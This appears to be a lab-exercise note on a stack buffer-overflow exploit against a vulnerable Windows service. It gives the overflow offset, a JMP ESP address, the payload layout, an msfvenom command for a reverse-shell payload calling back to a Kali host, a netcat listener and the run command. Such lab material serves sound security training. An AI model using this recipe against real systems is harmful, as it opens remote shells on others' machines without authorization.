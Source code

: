 # 7. Shellcode Injection and Exploitation

## 🧠 Goal:
- Deliver reverse shell to Kali from vulnerable Windows machine

## 🔧 Configuration:
- Target IP: 192.168.0.xxx
- Attacker (Kali) IP: 192.168.0.xxx
- Offset: 2003
- JMP ESP: 0x625011AF (`\xAF\x11\x50\x62`)
- Bad chars: `\x00`

## 📦 Exploit Layout:
"A"*2003 + JMP ESP + "\x90"*16 + shellcode


## 🎯 Shellcode:
Generated with:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.103 LPORT=4444 EXITFUNC=thread -f python -b "\x00"
▶️ Run:
On Kali:

bash
nc -lvnp 4444
On attacker terminal:

bash
python3 shellcode.py
